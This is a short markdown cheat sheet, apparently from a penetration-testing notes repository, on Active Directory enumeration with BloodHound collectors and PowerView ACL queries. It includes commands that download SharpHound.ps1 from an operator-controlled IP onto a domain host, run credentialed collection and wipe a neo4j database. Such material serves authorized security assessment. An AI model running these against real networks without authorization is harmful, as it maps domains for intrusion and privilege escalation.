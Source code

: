 # Enumeration

* [Bloodhound ] (#Bloodhound )


## Bloodhound 

Warning : Verify that the collector you're using match the Bloodhound version 

### Bloodhound-Python
- https://github.com/dirkjanm/BloodHound.py
- https://github.com/dirkjanm/BloodHound.py/tree/bloodhound-ce

```
bloodhound-python -c all -u "<username>" -p "<password>" -d <domain> -dc <DCip> -ns <dns>
```

### From Sliver

```
sharp-hound-4 -- '-c all'
``` 

### SharpHound.ps1
- https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors


On domain session : 
```
    iwr -uri http://<yourip>/SharpHound.ps1 -outfile SharpHound.ps1
    Import-Module .\Sharphound.ps1
    Invoke-BloodHound -CollectionMethod All 
```

On your VM :
```
    sudo neo4j start
```
Log on : http://localhost:7474 
```
    MATCH (n) OPTIONAL MATCH (n)-[r]-() DELETE n,r (to delete all previous neo4j db)
```
run bloodhound on terminal and log to neo4j db
Open download folder then drag and drop “corp audit_20231223102113_BloodHound.zip”
``` 

## ACL 

### Powerview
- https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1

ACLs associated with a specified object :

```
	Get-DomainObjectAcl -Identity <user> –ResolveGUIDs
	Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "<strings>"}
	Find-InterestingDomainAcl -ResolveGUIDs -Domain <domain>
```
